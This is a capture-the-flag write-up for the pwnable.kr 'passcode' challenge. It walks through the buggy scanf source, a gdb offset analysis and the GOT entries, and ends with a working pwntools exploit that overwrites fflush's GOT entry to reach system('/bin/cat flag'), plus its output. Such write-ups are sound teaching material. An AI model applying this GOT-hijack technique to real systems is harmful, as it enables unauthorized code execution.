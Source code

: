 ```yaml
---
title: "Writeup: passcode"
date: 2020-12-06T20:04:19+08:00
draft: false
---
```


This is a challenge from [pwnable.kr](http://pwnable.kr/play.php), it is a 32-bit ELF file without stripped.

```
passcode@pwnable:~$ file passcode
passcode: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=d2b7bd64f70e46b1b0eb7036b35b24a651c3666b, not stripped
```

The source code could be displayed as follows. 

```c
passcode@pwnable:~$ cat passcode.c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

As you can see, our goal is to execute system("/bin/cat flag"). Let's check the protection mechanism of the executable first. 

```
passcode@pwnable:~$ checksec passcode
[*] '/home/passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here are some ideas, since we can not exploit passcode1/passcode2 and buffer overflow directly, we're going to modify the GOT in order to force the program to execute our target. 

```
1. modify the values of passcode1 and passcode2 -> not writable -> x 
2. exploit buffer overflow -> canary is found -> x 
3. hijack the GOT -> partial RELRO -> v 
```

Note that scanf function in the source code lacks the address of operator (&), so our input would be treated as the address. We need to find out the location of "name", let's check it with gdb tool. As you can see, "name" is at [ebp - 0x70], where ebp is 0xff87eea8 at this point. 

```
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp
   0x0804860c <+3>:     sub    $0x88,%esp
   0x08048612 <+9>:     mov    %gs:0x14,%eax
   0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:    xor    %eax,%eax
   0x0804861d <+20>:    mov    $0x80487cb,%eax
   0x08048622 <+25>:    mov    %eax,(%esp)
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    $0x80487e3,%eax
   0x08048643 <+58>:    lea    -0x70(%ebp),%edx
   0x08048646 <+61>:    mov    %edx,0x4(%esp)
   0x0804864a <+65>:    mov    %eax,(%esp)
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
   0x08048652 <+73>:    mov    -0xc(%ebp),%eax
   0x08048655 <+76>:    xor    %gs:0x14,%eax
   0x0804865c <+83>:    je     0x8048663 <welcome+90>
   0x0804865e <+85>:    call   0x8048440 <__stack_chk_fail@plt>
   0x08048663 <+90>:    leave  
   0x08048664 <+91>:    ret    
End of assembler dump.
(gdb) b *0x0804862f
Breakpoint 1 at 0x804862f
(gdb) r
Starting program: /home/passcode/passcode
Toddler's Secure Login System 1.0 beta.

Breakpoint 1, 0x0804862f in welcome ()
(gdb) x/i $pc
=> 0x804862f <welcome+38>:      lea    -0x70(%ebp),%edx
(gdb) info registers ebp
ebp            0xff87eea8       0xff87eea8
```

We also need the location of "passcode1". Similarly, check it with gdb tool again. You can input an arbitrary value as the string "name". 

```
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     sub    $0x28,%esp
   0x0804856a <+6>:     mov    $0x8048770,%eax
   0x0804856f <+11>:    mov    %eax,(%esp)
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    $0x8048786,%eax
   0x0804859d <+57>:    mov    %eax,(%esp)
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    $0x8048783,%eax
   0x080485aa <+70>:    mov    -0xc(%ebp),%edx
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    movl   $0x8048799,(%esp)
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   movl   $0x80487a5,(%esp)
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave  
   0x080485f0 <+140>:   ret    
   0x080485f1 <+141>:   movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   movl   $0x0,(%esp)
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
End of assembler dump.
(gdb) b *0x0804857c
Breakpoint 2 at 0x804857c
(gdb) c
Continuing.
enter you name : 123
Welcome 123!

Breakpoint 2, 0x0804857c in login ()
(gdb) x/i $pc
=> 0x804857c <login+24>:        mov    -0x10(%ebp),%edx
(gdb) info registers ebp
ebp            0xff87eea8       0xff87eea8
```

As you can see, "passcode1" is at [ebp - 0x10], where ebp is 0xff87eea8 at this point. Both of "name" and "passcode1" have the same ebp, so the offset between "name" and "passcode1" is 0x60, which is the number of bytes needed to cover later. Besides, the size of the string "name" is 100, so we can cover the last 4 bytes and redirect to other functions whose GOT will be modified later. In this way, we can force the victim function to execute our target. 

Hence, the next step is to modify the GOT. Check the dynamic relocation entries with objdump command. 

```
passcode@pwnable:~$ objdump -R ./passcode

./passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

According to the source code, after entering the password1, the program will execute fflush and printf function. So our victim function could be either fflush (0x0804a004) or printf (0x0804a000). Apart from that, since our goal is to run the executable flag, we can update the address as 0x080485d7 (print Login OK! -> system) or 0x080485e3 (ignore print Login OK!, execute system directly). You can use combinations of them. 

Here is one of the solutions. 

```python
from pwn import *
context(arch='i386')

sh = ssh(host='pwnable.kr', user='passcode', password='guest', port=2222)
proc = sh.process('./passcode')
payload = 'a' * 0x60 + p32(0x0804a004) + str(0x080485d7) 
proc.sendlineafter('enter you name : ', payload)
proc.interactive()
```

The flag is as follows. 

```
$ python exp.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] passcode@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './passcode' on pwnable.kr: pid 447293
[*] Switching to interactive mode
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x04\x04!
enter passcode1 : Login OK!
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
[*] Got EOF while reading in interactive
```















